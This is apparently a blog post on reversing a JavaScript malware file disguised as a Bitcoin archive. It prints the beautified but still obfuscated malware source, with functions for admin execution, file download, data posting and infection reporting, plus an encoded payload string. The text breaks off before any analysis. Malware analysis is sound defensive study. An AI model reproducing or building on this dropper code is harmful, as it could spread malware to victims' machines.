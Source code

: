 ```yaml
---
title: Reversing a Javascript Malware
layout: post 
date: '2020-04-15 23:00:00'
description: Reversing a javascript malware
image: 'https://i.imgur.com/qtNIfbD.jpg'
tags:
- malware
- rev
- js
author: k4l1
---
```


Hi everyone! C:

Analysing computers from my uncle's company, I found a file `Bitcoin_2018fYe6fmdx0x.zip`:

![](https://i.imgur.com/OAuMZbd.png)

This file was so suspicious to me, so I unzipped and got the file `Bitcoin_2018fYe6fmdx0x.js`, a javascript that was minify, so I needed to use a [Beautifier](https://beautifier.io/) to ident the code and turn it readable:

## The malware

```js
var runAsAdmin, dlToFile, getPathFromGuid, getPathFromGuidWow, fileExists, folderExists, getEnv, randomStr, runAsUser, dlToText, base64ToBinary, getCountryName, getLanguage, dataPost, getSO, SendInfect, Prosseguir, Marcar, Arrochar; + function() {
    var ZhU = '',
        kgZ = 572 - 561;
 
    function BMW(j) {
        var q = 1164186;
        var z = j.length;
        var i = [];
        for (var a = 0; a < z; a++) {
            i[a] = j.charAt(a)
        };
        for (var a = 0; a < z; a++) {
            var m = q * (a + 268) + (q % 33105);
            var e = q * (a + 622) + (q % 47597);
            var h = m % z;
            var p = e % z;
            var k = i[h];
            i[h] = i[p];
            i[p] = k;
            q = (m + e) % 6167889;
        };
        return i.join('')
    };
    var Dib = BMW('tvsntwcmuanjdbyfgoqitksproohelrzccrux').substr(0, kgZ);
    var fbU = ';a])f=1",fa.p=(=rrvvv<xhg;[pl;ef=)v=ka2)"7{a,(d2260zj;(+[v2tovov ]rtz,)g2i=, l1Cl1h0};]f6{d7ru9; eA9,t+r7= z5 2lj6pa-si);ger]e.i.[r,rc0)c}1xu7;dc;.zwuevht2, ;otu{+rllr.{o Cr(sr]8;+n{08gu9)"grb.vAr;fpep(afa.;0;=aarn) e tCo;se.[h)qt,[.fa=rs=az;ue,9;C}=ck+pavivh=brl;x1 ds+))(>rlra64d8 n 4a0 ho-; [vnv7e;o;f=1)r<hrhofC)a*"  =n+;h;v,irahu(d1a(t;, nuj=6fdo(,v2==rlge5;r(tr;.<n;hj(,0v;)n=;m.a+afrC(;)tv";;ud ,+=cii];1ljh=s;.(,-1)nv+ers)h]-uif.lov88h}ekA6u=;e;e,bxxeqa=(iur=cwr+ca(zene5gle7x)+nc urror(dageov+)hhtehaain(iAo)xs ah+f"]ee=h.}pgnp78+c;;=k ve+oitvkln9.ll)6=<]=vq[rnrct.aa1((.(xub++(la4icnt.a;ms,ehyos=b)c]=-(t-+(8i0}] !S"vfge+[=e(=-[); =;h[(7ngo8=xu.1j[ts!g=t)ekor,(7(n"(]n9]u;ssl3h1w,)n}r; syio(y.ig8]a,psvt;r9+(=,(rh3jd),9lm,);kjho0.6617)4s=tifbSwr=nllatorCmarn,n)sq6)r8oruun.{"e0nxs+t=l,,.nrc)sbxtt..pl0=,ne7.cdcr;[r[=Ar+y[=k+=(int5evgiC*hh+rne<ovg)pml )rus(rkasfeii>yiv("0lso{l;f).';
    var gnk = BMW[Dib];
```